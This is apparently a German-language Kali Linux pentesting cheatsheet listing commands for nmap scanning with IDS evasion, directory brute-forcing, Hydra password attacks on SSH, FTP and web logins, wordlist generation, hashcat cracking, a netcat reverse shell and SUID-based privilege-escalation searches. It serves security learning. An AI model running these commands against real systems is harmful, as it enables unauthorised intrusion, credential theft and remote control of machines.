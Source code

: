 # Kali Cheatsheet

# Information Gathering

---

## Scans:

### Nmap

Aggressive:

```bash
nmap -A 127.0.0.1 -v
```

(Erzeugt sehr viel Traffic)

SYN:

```bash
nmap -sS -F 127.0.0.1 -v
```

(Schnell aber nicht umbedingt präzise dafür unwahrscheinlicher geloggt zu werden)

ACK:

```bash
nmap -sA -F 127.0.0.1 -v
```

(Paketfilter umgehen)

UDP:

```bash
nmap -sU -F 127.0.0.1 -v
```

Firewall erkennen:

```
nmap --badsum 127.0.0.1
```

Mac spoofing (Anonymisiert scan):

```
nmap --spoof-mac 00:11:22:33:44:55 127.0.0.1
```

IDS umgehen:

```
nmap -T2 -f 127.0.0.1
```

### Gobuster

Gobuster scan:

```bash
gobuster dir -u 127.0.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### Exiftools

Metadaten auslesen:

```bash
exiftool picture.png
```

Binwalk (Binary Daten exportieren):

```bash
binwalk -e picture.png
```

### Sonstiges:

whois -> DNS records
nslookup -> IP Adressen/Mailserver/TXT für DNS
dig -> Krasseres nslookup
DNSDumpster -> Findet Subdomains
Shodan.io -> DNS

# Exploiting

---

## Bruteforce/Dictionary:

### Hydra

SSH:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh -t 4 -V
```

With 4 Threads

FTP:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://127.0.0.1 -V
```

HTTP:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid Password!" -V
```

Paar Flags:  
 -f : Stoppt wenn PW gefunden  
\-s : Port

### Crunch

Generiert Bruteforce Wordlists:

crunch min max charset

```
crunch 1 3 0123456789!()/$%& -o wordlist.txt
```

### CeWL

Generiert Wordlists von Webseiten Content

```
cewl http://127.0.0.1 -w output.txt
```

Flasgs:

- \-m Min Password length -x Max Password length
- \-d Depth of spider (Wie viele Unterseiten sich angeschaut werden)
- \-a Wenn hinter login
- \--with-numbers fügt Nummern hinzu

### Hashcat

SHA256

```bash
hashcat -a 0 -w 4 -m 1400 --session hash_session hash.hash /usr/share/wordlists/rockyou.txt
```
## Netcat

Listening shell:
```bash
nc -lvnp 4000
```

Reverse shell:
```bash
nc -e "/bin/bash" ip port
```

# Privilege Escalation

---

Datei mit SUID bit gesetzt:
```bash
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

Falsch konfigurierte Dateiattribute:
```bash
find / -type f -perm 0777
```
